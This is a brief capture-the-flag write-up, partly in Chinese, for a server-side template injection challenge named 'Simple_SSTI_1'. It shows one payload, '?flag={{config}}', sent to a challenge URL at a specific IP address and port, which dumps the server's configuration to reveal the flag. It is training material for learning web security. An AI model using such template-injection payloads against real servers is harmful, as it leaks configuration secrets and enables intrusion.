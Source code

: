 # Simple_SSTI_1

**SSTI(Server-Side Template Injection)服务端模板注入**

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662899868-image-20210316154311050.png)

You need pass in a parameter named flag.

> 你需要传入一个名为flag的参数

模板注入

直接查看配置信息

payload

> `http://114.67.246.176:17452/?flag={{config}}`

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662922876-image-20210316154611421.png)

得到flag

